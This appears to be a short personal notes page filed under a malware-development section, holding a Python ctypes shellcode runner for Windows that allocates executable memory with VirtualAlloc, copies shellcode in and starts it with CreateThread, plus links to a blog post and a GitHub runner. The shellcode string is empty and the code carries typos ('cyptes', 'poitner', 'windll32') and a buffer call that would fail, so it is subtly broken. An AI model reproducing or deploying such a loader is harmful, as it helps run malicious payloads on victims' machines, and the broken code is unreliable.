 # Python

```python
import ctypes

kernel32 = ctypes.windll32.kernel32

shellcode = ""

pointer = kernel32.VirtualAlloc(cyptes.c_int(0), ctypes.c_int(len(shellcode)), ctypes.c_int(0x3000), ctypes.c_int(0x40))

buffer = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)

kernel32.RtlMoveMemory(ctypes.c_int(pointer),
buffer,
ctypes.c_int(len(shellcode)))

handle_thread = kernel32.CreateThread(ctypes.c_int(0),
ctypes.c_int(0),
ctypes.c_int(pointer),
ctypes.c_int(0),
ctypes.c_int(0),
ctypes.poitner(ctypes.c_int(0)))

kernel32.WaitForSingleObject(ctypes.c_int(handle_thread),
ctypes.c_int(-1))
```

---
## References

### Backlinks

- [[03 - Malware Development/Techniques/Payload Execution/Shellcode Loader/Memory Allocation/Windows/WinAPI/Simple Loader/Virtual Allocation/C]]

https://momonguyen.com/2021/python-shellcode-runner/

https://github.com/momo1239/buffshark-shellcode-runner